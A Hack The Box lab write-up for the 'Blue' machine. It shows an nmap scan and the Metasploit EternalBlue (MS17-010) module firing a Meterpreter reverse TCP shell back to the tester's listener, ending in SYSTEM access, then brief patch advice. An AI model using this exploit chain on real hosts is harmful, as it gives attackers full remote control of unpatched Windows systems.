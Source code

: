 
# Blue

- Introduction 
- Walkthrough
- Mitigrations
- References 


## Introduction 

The Blue machine on HTB is a simple yet poignant box that demonstrates the severity of the eternalblue vulnerability. A vulnerability in SMBv1 that allows specially crafted packets to be sent to the host server.  

## Summary 

The testing of the Blue host uncovered a severe vulnerability in the a communication Protocol on the target host which could basically give a malicious actor complete control on the host in question. Fortunately, the vulnerability has an official patch that can be applied but blocking the service maybe a helpful temporary and short term fix.

## Blue

The tester started by running an Nmap scan to enumerate the host services.

```
└──╼ $nmap -A 10.10.10.40 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-06 18:27 EST
Nmap scan report for 10.10.10.40
Host is up (0.094s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 23s, deviation: 1s, median: 22s
| smb2-time: 
|   date: 2023-11-06T23:28:59
|_  start_date: 2023-11-06T23:24:28
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-11-06T23:28:58+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.51 seconds
```

The tester researched the OS version, which was shown in the nmap scan, and found that this version of windows is vulnerable to the eternalblue exploit which allows RCE on a vulnerable host. The tester used the metasploit module "ms17_010_eternalblue" to exploit this vulnerablility. 

```
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                             ng-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Onl
                                             y affects Windows Server 2008 R2, Windows 7, Windows Embedde
                                             d Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only af
                                             fects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 t
                                             arget machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.21      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.40
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (10.10.14.21:4444 -> 10.10.10.40:49158) at 2023-11-08 10:53:17 -0500

(Meterpreter 2)(C:\Windows\system32) > getuid
Server username: NT AUTHORITY\SYSTEM


```

Once executed, the module returns a system level shell giving the tester control of the system.

## Mitigations 

- Until patched, block port 445
- Install microsoft offical patch 

References
--

- https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010

